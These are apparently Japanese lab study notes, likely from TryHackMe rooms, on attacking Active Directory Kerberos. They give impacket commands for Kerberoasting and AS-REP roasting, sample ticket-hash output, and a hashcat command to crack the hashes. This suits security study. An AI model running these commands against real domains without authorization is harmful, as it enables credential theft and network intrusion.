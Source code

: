 ```shell
# （参考）パスワード指定したり、ハッシュを出力する書き方もある。
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py 'VULNNET-RST.local/username:password' -outputfile keberoast.hash -dc-ip $TARGET
```

```shell
#  srv-user ユーザーの TGS チケットを取得
$ impacket-GetUserSPNs -dc-ip 10.10.26.212 THM.red/thm -request-user svc-thm
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-thm            2022-06-10 05:47:33.796826  <never>

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-thm$THM.RED$THM.red/svc-thm*$9f9c8d504515dbd07a29f7.（..略）
```

```shell
# パスワードをクラック
hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

## AS-REP ロースティング

アカウント オプションが「 Kerberos 事前認証を必要としない」に設定されている AD ユーザーのパスワード ハッシュを攻撃者が取得できるようにする手法。古い Kerberos 認証プロトコル に依存している。

```shell
# ユーザーリストに対する AS-REP ロースティング攻撃
impacket-GetNPUsers -dc-ip 10.10.26.212 thm.red/ -usersfile users.txt
```

後は，hashcat でクラックを試みる。
